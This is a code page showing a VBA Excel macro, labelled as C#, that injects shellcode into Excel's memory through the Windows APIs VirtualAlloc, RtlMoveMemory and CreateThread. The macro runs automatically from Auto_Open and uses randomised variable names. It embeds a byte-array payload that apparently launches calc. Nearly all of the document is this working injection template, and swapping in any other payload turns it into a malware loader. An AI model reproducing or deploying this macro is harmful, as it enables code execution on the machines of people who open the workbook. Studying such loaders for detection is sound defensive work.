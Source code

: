 ## Shellcode Injection to Excel.exe Memory Using Windows APIs

```csharp
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long

Sub Auto_Open()
        Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
#If Vba7 Then
        Dim  Xlbufvetp As LongPtr
#Else
        Dim  Xlbufvetp As Long
#EndIf
        Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
        Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
        For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                Wyzayxya = Hyeyhafxp(Zolde)
                Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
        Next Zolde
        Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
End Sub
```
